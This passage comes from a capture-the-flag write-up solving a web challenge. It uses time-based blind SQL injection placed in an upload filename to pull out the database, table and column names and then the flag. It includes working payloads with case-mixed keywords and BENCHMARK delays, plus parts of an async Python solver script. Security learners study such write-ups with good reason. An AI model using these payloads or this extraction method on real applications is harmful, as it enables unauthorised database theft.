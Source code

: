 ```py
            if char:
                db_name += char
                sys.stdout.write(char)
                sys.stdout.flush()
            else:
                break

    print(f"\n[+] Done: Database name is '{db_name}'")

if __name__ == "__main__":
    asyncio.run(main())

    ##web_challengetest
```

and we extracted the db name which is `web_challengetest` now let us see how many tables are there in this db, for that i used this payload

```
Content-Disposition: form-data; name="file"; filename="Select CaSE WHEN (Select COuNT(*) FrOM information_schema.tables WHeRe table_schema='web_challengetest')>0 THEN BENCHMArK(10000000,MD5(1)) ELSE 0 END-- .png"
```

and we got that the db conatins 3 tables, now let's get thier names i used this payload and i will provied the full solver code at the end of the writeup

```py
    payload = (
        f"Select CaSE WHEN MID((Select table_name FROM information_schema.tables WHERE table_schema='{DATABASE}' "
        f"LIMIT 1 OFFSET {table_idx}),{pos},1)='{char}' THEN BENCHMArK(10000000,MD5(1)) ELSE 0 END-- .png"
    )
```

we extract three table name which was `flag` and `friends` i didn't care about the thired table name acutly once i found the flag table xD.
now it's time to get the coulmns name inside the flag table
i used this payload to get that

```py
payload = (
        f"Select CaSE WHEN MID((SelecT column_name FROM information_schema.columns WHERE table_schema='{DATABASE}' "
        f"AND table_name='{TABLE}' LIMIT 1 OFFSET {column_idx}),{pos},1)='{char}' THEN BENCHMArK(10000000,MD5(1)) ELSE 0 END-- .png"
    )
```

we extracted 2 coulmns `id` and `value` so let's get the flag from value coulmn that's inside the flag table this was the code that made me get the flag

```py
import aiohttp
import asyncio
import urllib3
import sys
import time
import logging

# Configure logging
logging.basicConfig(level=logging.INFO, format="%(asctime)s - %(levelname)s - %(message)s")
logger = logging.getLogger(__name__)

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

URL = "https://blind-trust.ascwg-challs.app/challenge.php?page=profile"
```